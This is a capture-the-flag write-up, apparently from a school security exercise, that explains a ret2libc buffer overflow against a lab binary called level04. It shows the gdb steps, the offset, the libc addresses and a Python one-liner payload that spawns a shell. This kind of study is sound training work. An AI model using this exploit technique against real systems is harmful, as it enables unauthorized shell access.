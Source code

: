 
# Level04 - Exploiting a Buffer Overflow with Ret2libc

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level04
Give me some shellcode, k
coucou
child is exiting...
```

The program asks for input and then exits.

## Step 2: Analyzing with GDB

To understand the program, let's analyze it using GDB (GNU Debugger). The program performs a `fork()`, and the child process reads input using `gets()`. The parent process uses `ptrace` to monitor the child, checking if it calls the `exec` function.

```assembly
0x080487f6 <+302>: mov    DWORD PTR [esp],0x8048931
0x080487fd <+309>: call   0x8048500 <puts@plt>
```

If `exec()` is called, the program outputs `"no exec() for you"`.

## Step 3: Exploiting the Buffer Overflow

We can overflow the `gets()` buffer in the child process. Use a long input string to find the offset to control EIP (Instruction Pointer).

```bash
$ gdb -q ./level04
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

The program segfaults, indicating control of EIP.

### Finding the Offset

```bash
(gdb) i r
eax            0x0   0
...
eip            0x6e6e6e6e  0x6e6e6e6e
```
We need to determine the offset at which the buffer overflows with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
We find that EIP is overwritten at offset `156`.

## Step 4: Ret2libc Attack

We will use a Ret2libc attack by calling `system("/bin/sh")`. We need the addresses of `system()`, `exit()`, and the string `"/bin/sh"`.

### Finding Required Addresses

1. **`system` Address**:
   ```bash
   (gdb) info function system
   0xf7e6aed0  system
   ```

2. **`exit` Address**:
   ```bash
   (gdb) info function exit
   0xf7e5eb70  exit
   ```

3. **`/bin/sh` String**:
   ```bash
   (gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
   0xf7f897ec
   ```

### Building the Payload

Construct the payload with the addresses found:

```bash
("B" * 156) + system + exit + "/bin/sh"
```

### Executing the Exploit

Save the payload to a file and run the program:

```bash
$ python -c 'print "B"*156+"Ð®æ÷"+"pëå÷"+"ìø÷"' > /tmp/payload
$ cat /tmp/payload - | ./level04
Give me some shellcode, k
whoami
level05
```

## Summary

- The program is vulnerable to a buffer overflow via `gets()`.
- Using the overflow, we performed a Ret2libc attack to call `system("/bin/sh")`.
- This allowed us to bypass security checks and gain shell access.

This exercise demonstrates a common technique for exploiting buffer overflows when direct execution is restricted.
